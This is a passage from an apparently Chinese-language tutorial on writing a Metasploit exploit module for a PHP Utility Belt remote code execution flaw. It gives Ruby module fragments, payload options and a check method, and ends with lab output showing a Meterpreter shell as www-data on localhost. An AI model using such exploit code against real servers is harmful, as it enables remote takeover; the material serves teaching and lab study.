 ```ruby
                'code' => payload.encoded
            }
        )
    end
end 
```

注意，我们在Payload中设置了`'DisableNops' => true`，也就是不要payload中的nop填充，因为目标平台是PHP。拓展一下，参考`lib/msf/base/simple/payload.rb`，我们可以得知Payload的设置选项有以下这些：

```ruby
    # Generate the payload
    e = EncodedPayload.create(payload,
        'BadChars'    => opts['BadChars'],
        'MinNops'     => opts['NopSledSize'],
        'Encoder'     => opts['Encoder'],
        'Iterations'  => opts['Iterations'],
        'ForceEncode' => opts['ForceEncode'],
        'DisableNops' => opts['DisableNops'],
        'Space'       => opts['MaxSize'])
```

实际上，这个模块也存在于官方modules中，位于`modules/exploits/multi/http/php_utility_belt_rce.rb`。我们对比一下自定义的和官方的，发现有一下不同：

```ruby
Rank = ExcellentRanking

'Arch'           => ARCH_PHP

def check
  txt = Rex::Text.rand_text_alpha(8)
  res = http_send_command("echo #{txt};")

  if res && res.body.include?(txt)
    Exploit::CheckCode::Vulnerable
  else
    Exploit::CheckCode::Safe
  end
end
```

可以发现官方模块对细节描述更准确，同时其check方法更为简洁。

测试：

```
msf exploit(rambo/my_phputilitybelt) > check
[+] 127.0.0.1:8080 The target is vulnerable.

msf exploit(rambo/my_phputilitybelt) > exploit

[*] Started bind TCP handler against 127.0.0.1:4444
[*] Sending stage (37775 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (127.0.0.1:57837 -> 127.0.0.1:4444) at 2018-10-28 10:46:17 +0800

meterpreter > getuid
Server username: www-data (33)
```

